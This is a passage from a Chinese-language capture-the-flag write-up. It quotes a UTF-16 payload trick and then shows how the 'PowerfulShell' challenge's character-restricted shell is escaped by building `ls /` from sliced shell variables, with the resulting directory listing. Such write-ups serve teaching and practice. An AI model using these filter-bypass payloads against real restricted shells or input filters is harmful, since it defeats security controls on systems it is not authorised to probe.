 > P.S. 感觉官方 wp 的 payload 更高级一些
>
> ```python
> payload = b'theflag\x00'.decode('utf-16-le')
> ```
>
> 或者直接输入中文 `桴晥慬g`

## PowerfulShell

给了一个禁用了一系列字符的 shell，能用的字符只有

```
1 2 3 4 5 6 7 8 9 ~ _ - + = { } [ ] : | $ `
```

`~` 表示当前目录，输出是 `/players`

`$-` 表示 shell 选项，输出是 `hB`

考虑 shell 中的字符串拼接，可以拼出来 `ls /`

```bash
__=~        # ~ 是 /players
___=$-      # $- 是 hB
${__:2:1}${__:7:1} ${__: -8: 1}  # ls /
```

其中 `/` 不能用 `0` 来取第一位，需要从后往前数，用 `-8` 表示。

输出为

```bash
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
media
mnt
opt
players
proc
root
run
sbin
srv
sys
tmp
usr
var
```
